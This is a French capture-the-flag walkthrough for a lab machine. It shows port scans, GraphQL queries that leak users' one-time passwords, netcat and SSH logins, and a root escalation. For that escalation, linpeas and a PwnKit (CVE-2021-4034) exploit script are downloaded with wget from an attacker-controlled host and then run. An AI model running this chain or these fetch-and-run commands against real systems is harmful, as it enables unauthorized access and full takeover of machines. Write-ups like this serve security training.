 
# Depreciated

	sudo  masscan  -p1-65535,U:1-65535 192.168.231.170 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.231.170
	ffuf -u http://192.168.231.170/FUZZ -w  /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -e .php,.txt,.ini,.conf,.log -fc 403
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
    80/tcp open http nginx 1.18.0 (Ubuntu)  
    5132/tcp open unknown  
    8433/tcp open http Werkzeug httpd 2.0.2 (Python 3.8.10)

http://192.168.231.170 => "For sometime web UI will stay down, please use the CLI application on port 5132"

Mais dans le code source il y a une portion de code commentée, dont une ligne très intéressante : 

  > \<!--\<form method="post" action="http<span>://127.0.0.1:8433/graphql?query={login(username:$uname, password:$pswd)}" enctype="multipart/form-data"\>--\>

Vérification du port 5132 : 

    nc 192.168.231.170 5132 

Il n'y a qu'un simple prompt demandant un nom d'utilisateur et un OTP.

J'ai essayé d'envoyer des payloads GrapQL basiques depuis mon shell mais sans succès : 

    curl  'http://192.168.231.170:8433/graphql?query={__schema}'
    curl  'http://192.168.231.170:8433/graphql?query={status}'

En fait il suffisait directement de passer par l'interface web sur un navigateur, en faisant cela on tombe sur un éditeur GraphiQL où l'on peut directement travailler et voir nos résultats. Et en jouant avec l'autocomplétion on peut voir quelques fonctions comme "listUsers" et "getOTP" qui semblent très intéressantes.

    {
    	listUsers
    }
    
   On obtient : 

    {
      "data": {
        "listUsers": "['peter', 'jason']"
      }
    }

Plus qu'à tenter d'obtenir les OTP avec la deuxième fonction : 

    {
       getOTP(username:"peter")
    }

On obtient : 

    {
      "data": {
        "getOTP": "Your One Time Password is: CG5pzyISVOMvErUz"
      }
    }
  
  On peut avoir le OTP de Jason de la même manière.

En retournant sur le port 5132 mais cette fois avec les identifiants de Peter, on tombe sur un prompt avec quelques fonctions de gestion de messages.

    nc 192.168.231.170 5132
    $ help
    $ list
    $ read 2345
    ...

Tous les messages sont bloqués sauf le #234 qui indique indirectement le mot de passe de Peter.

    ssh -l peter 192.168.231.170
    cat local.txt

### Élévation de privilèges classique avec un CVE :  

    wget http://192.168.45.239/linpeas.sh
    chmod u+x linpeas.sh
    ./linpeas.sh | tee resultat.txt
    less -R resultat.txt
    
    wget http://192.168.45.239/CVE-2021-4034.sh
    chmod u+x CVE-2021-4034.sh
    ./CVE-2021-4034.sh
    ls /root
    cat /root/proof.txt
